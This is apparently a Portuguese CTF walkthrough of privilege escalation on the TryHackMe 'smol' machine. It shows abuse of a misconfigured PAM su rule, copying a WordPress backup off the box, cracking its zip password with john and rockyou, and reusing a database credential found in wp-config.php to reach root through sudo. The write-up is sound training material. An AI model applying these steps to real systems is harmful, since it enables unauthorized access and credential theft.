  Memory usage: 18%               IPv4 address for ens5: 10.65.137.214
  Swap usage:   0%

 * Ubuntu 20.04 LTS Focal Fossa has reached its end of standard support on 31 Ma
 
   For more details see:
   https://ubuntu.com/20-04

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

37 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 20.04 at
https://ubuntu.com/20-04


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.

think@ip-10-65-137-214:~$ 

``` 

Certo, agora precismos de alguma forma para upar nossos privilégios para root. 

## gege shell

Se você olhar no diretório do usuário **gege**, perceberás o que parece ser um backup do WordPress, porém só o **gege**  tem permissão de acesso.

```plaintext
think@ip-10-65-176-239:/home/gege$ ls -lah
total 31M
drwxr-x--- 2 gege internal 4.0K Aug 18  2023 .
drwxr-xr-x 8 root root     4.0K Mar 10 19:37 ..
lrwxrwxrwx 1 root root        9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege     3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege      807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root        9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege      31M Aug 16  2023 wordpress.old.zip

``` 
Se dermos uma olhada no arquivo `/etc/groups` veremos que o usuário `think` e o `gege` fazem parte do mesmo grupo: 

```plaintext
gege:x:1003:
dev:x:1004:think,gege
internal:x:1005:diego,gege,think,xavi
```

Talvez eles tenham permissão entre si, vamos tentar logar com o usuário **gege** através do **think** para ver no que dá:

```plaintext
think@ip-10-65-176-239:/home/gege$ su gege
gege@ip-10-65-176-239:~$ 
```

E "curiosamente" foi. Se olharmos o diretório do mecanismo que controla esse tipo de comportamento no Linux (PAM), vamos ver que há uma entrada para o `su`:

```plaintext
gege@ip-10-65-176-239:~$ ls /etc/pam.d/
atd             common-password                other      su
chfn            common-session                 passwd     sudo
chpasswd        common-session-noninteractive  polkit-1   su-l
chsh            cron                           runuser    systemd-user
common-account  login                          runuser-l  vmtoolsd
common-auth     newusers                       sshd
``` 
Olhando o arquivo correspondente ao `su`, vemos o porquê desse comportamento acontecer: 
```plaintext
gege@ip-10-65-176-239:~$ cat /etc/pam.d/su
#
# The PAM configuration file for the Shadow `su' service
#

# This allows root to su without passwords (normal operation)
auth       sufficient pam_rootok.so
auth  [success=ignore default=1] pam_succeed_if.so user = gege
auth  sufficient                 pam_succeed_if.so use_uid user = think
```

Agora fica como dever de casa para você: usar o ChatGPT ou alguma outra IA de sua preferência para que ela te explique o que signifique cada linha.

Bom, prosseguindo.. 

Ao tentar dar um `unzip` no backup do WordPress, vemos que pede senha:

```plaintext
gege@ip-10-65-176-239:~$ unzip wordpress.old.zip 
Archive:  wordpress.old.zip
   creating: wordpress.old/
[wordpress.old.zip] wordpress.old/wp-config.php password: 

``` 

Vamos passar esse arquivo para nossa máquina e tentar quebrar com o `john`. 

Na máquina alvo: 
`python3 -m http.server` 

Na sua máquina: 
```language
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ wget http://www.smol.thm:8000/wordpress.old.zip

--2026-03-10 16:18:47--  http://www.smol.thm:8000/wordpress.old.zip
Resolving www.smol.thm (www.smol.thm)... 10.65.176.239
Connecting to www.smol.thm (www.smol.thm)|10.65.176.239|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32266546 (31M) [application/zip]
Saving to: ‘wordpress.old.zip’

wordpress.old.zip  100%[=============>]  30.77M  7.07MB/s    in 9.0s    

2026-03-10 16:18:57 (3.42 MB/s) - ‘wordpress.old.zip’ saved [32266546/32266546]

``` 

Certo, agora usando o `zip2john` para preparar o arquivo para fazermos o cracking da senha: 
`zip2john wordpress.old.zip > hash`

Agora no `john`: 
```plaintext
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hero_gege@hotmail.com (wordpress.old.zip)     
1g 0:00:00:01 DONE (2026-03-10 16:21) 0.6993g/s 5330Kp/s 5330Kc/s 5330KC/s hesse..hermosa_jessy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
``` 

## xavi shell

Rapidamente conseguimos a senha. Descompactando o arquivo, conseguimos acesso a um novo `wp-config.php` e conseguimos lá as credenciais do usuário **xavi**: 
```plaintext
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

```

Excelente! Vamos agora tentar logar como **xavi** e veja que conseguimos:
```plaintext
gege@ip-10-65-176-239:~$ su xavi
Password: 
xavi@ip-10-65-176-239:/home/gege$ 
```

## root shell + root flag

Vamos tentar escalar para `root` já que temos a senha do **xavi**:
```plaintext
xavi@ip-10-65-176-239:/home/gege$ sudo su
[sudo] password for xavi: 
root@ip-10-65-176-239:/home/gege$ 
``` 

E funcionou! Agora é só pegar a **flag root.** 

--- 

# Conclusão
Confesso que esse cenário de escalar do usuário **think** para o usuário **gege** foi meio diferente para mim, não sei isso aconteceria em uma ambiente real, se ficou muto "fictício" mas enfim, tratando-se de um CTF, não há de que se estranhar, mas confesso que curto bastante CTF com "pegada realista". Mas é isso! Valeu o aprendizado!   

Muito obrigado! 
Nos vemos em breve! 
E sinta-se à vontade para entrar em contato comigo caso queira!
